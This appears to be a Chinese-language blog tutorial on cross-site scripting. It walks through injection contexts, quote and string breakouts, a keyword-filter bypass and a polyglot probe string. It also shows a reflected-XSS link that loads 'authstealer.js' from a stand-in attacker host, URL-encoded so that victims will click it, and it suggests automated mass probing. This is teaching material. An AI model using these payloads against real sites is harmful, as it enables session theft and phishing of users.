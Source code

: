```yaml
---
weight: 1
title: "手把手教你xss攻击"
date: 2024-03-08T09:03:21+08:00
lastmod: 2024-03-08T09:03:21+08:00
draft: false
author: "乙醇"
authorLink: "https://example.com/author"
description: "有手就会"
images: []
resources:
- name: "featured-image"
  src: "https://images.unsplash.com/photo-1658954382154-fe7d69fdcf78?w=300"

tags: []
categories: ['测试工具', '软件测试基础']

lightgallery: true

toc:
  auto: false
---
```


一句话解释xss就是通过提供恶意的用户输入让浏览器执行恶意的JavaScript代码。

### 最简单的例子

```jsx
<div>
    <h1> Welcome {your input} </h1>
</div>
```

这里页面希望你通过文本框输入自己名字，然后把你输入的名字展示出来。假如你输入的名字是:`<script>alert('XSS')</script>`

这时候浏览器将解析下面的html代码

```jsx
<div>
    <h1> Welcome <script>alert('XSS')</script></h1>
</div>
```

script标签里的js代码就被执行了，这就是一个最简单的xss。

### 复杂一点点的例子

```jsx
<div>
    <h1> Welcome <input value="{your input}"</h1>
</div>
```

这时候如果你输入`<script>alert('XSS')</script>` 那么将得到类似下面的结果

```jsx
<div>
    <h1> Welcome <input "<script>alert('XSS')</script>"</h1>
</div>
```

因为script标签被包含在双引号里，浏览器会认为这是一个普通的字符串，所以不会执行js代码。不过如果你输入`“"><script>alert('XSS');</script>”` 那么你将会打开一个新的局面

```jsx
<div>
    <h1> Welcome <input ""><script>alert('XSS')</script></h1>
</div>
```

input标签被强行闭合，script标签成功上位。这时候js代码又可以执行了。

### 再来个例子

```jsx
<script>
    document.getElementsByClassName('name')[0].innerHTML='{input}';
</script>
```

这个例子里我们要想办法在现有的代码中插入恶意的js代码，这里需要用到2点小知识

- js代码中`;`号可以结束一行语句
- js代码中`//`表示后面的所有内容都是注释，可以被忽略掉

因此如果我们输入的是`';alert('XSS');//` 那么中间的alert语句是可以执行的

```jsx
<script>
    document.getElementsByClassName('name')[0].innerHTML='';alert('XSS');//'
</script>
```

前面的单引号被第1个单引号匹配并终结，后面的分号直接结束了这一句，而后面的那个单引号则被`//` 注释掉了，所以中间的alert代码是可以顺利执行的。

### 还有例子

有时候页面会过滤掉一些危险的关键字，比如script标签，这时候可以试试构造下面的数据

```jsx
<sscriptcript>alert('XSS');</sscriptcript>
```

当script标签被过滤掉之后，html代码如下

```jsx
<script>alert('XSS');</script>
```

恶意代码可以顺利执行。

### 探针

如果每次见招拆招的话，那么攻击的效率是不太高的，这时候就可以试试下面的这种标准化探针字符串，如果页面存在一些基本的xss漏洞的话，下面的代码是可以被顺利执行的。

```jsx
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

我们可以使用自动化的工具在页面上所有可以输入的地方批量植入探针，这样就可以大规模高效率的进行攻击了。

### 非持久化的xss

上面的例子是持久化的xss，简单来说就是需要把用户输入的内容保存到数据库里然后在页面进行回显，在现实中其实还有一种不需要持久化就进行xss攻击的例子。

下面的例子来自维基百科。

假设我们有一个搜索页面，该页面会回显url里的q参数，比如`http://bobssite.org/search**?q=**<script>alert('xss');</script>` ****q参数后面的内容会回显到搜索框里，这样就可以把搜索结果简单的复制给其他人了。然而如果我们搜索的内容是带恶意脚本的script标签的话，在标签没有被转义的情况下，页面就会在回显的时候直接执行标签里的脚本了。

这种方式还可以这样玩，比如

```jsx
http://bobssite.org/search?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js">
```

这样就可以执行authstealer.js脚本了，后面的事情有点复杂，就不过多描述了。

最后为了不引起被害者的警觉，我们还可以把url中的内容编码一下

```jsx
http://bobssite.org/search?q=puppies%3Cscript%20src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E
```

这样被害人收到这样链接的时候就更有可能随手一点了。

### 总结

xss攻击是最常见的前端攻击方式，一般情况下常用的前端框架都有安全机制尽量避免xss的发生，但武器库里有防身的工具，不见得所有的开发者都会熟练应用，因此xss漏洞始终是有可能出现的。